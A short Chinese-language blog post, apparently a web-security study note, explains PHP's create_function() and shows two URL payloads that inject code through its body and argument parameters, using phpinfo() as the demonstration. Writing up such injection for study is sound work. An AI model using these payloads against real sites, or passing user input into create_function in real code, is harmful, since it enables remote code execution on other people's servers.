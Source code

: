 ```yaml
---
layout: post
title: create_function的用法
categories: [web,php]
---
```

## create_function(`$arg`,`$code`)函数  
>$args 声明的函数变量部分  
>$code 执行的方法代码部分  
现在构造一个
```php
	$func=create_function($args,'echo "xxxxx".$args');
	$func("hello");
```
create_function() 会创造一个匿名函数 (lambda样式) 
实际上等价于  
```php
	function lambda($args){
       echo "xxxxx".$args;
    }
```
而此时由于参数的传入，这里就存在漏洞  
***
### 第一种是对于code的注入  
>payload: ?args=1;}phpinfo();/*  
此时代码变为  
```php
	function lambda($args){
       echo "xxxxx".1;
    }
    phpinfo();/*;
    }
```

### 第二种是对于args的注入
>payload: ?args=){phpinfo();}/*  
此时代码变为
```php
	function lambda($args){
		phpinfo();
	}
	/*){
       echo "xxxxx".$args;
    }
```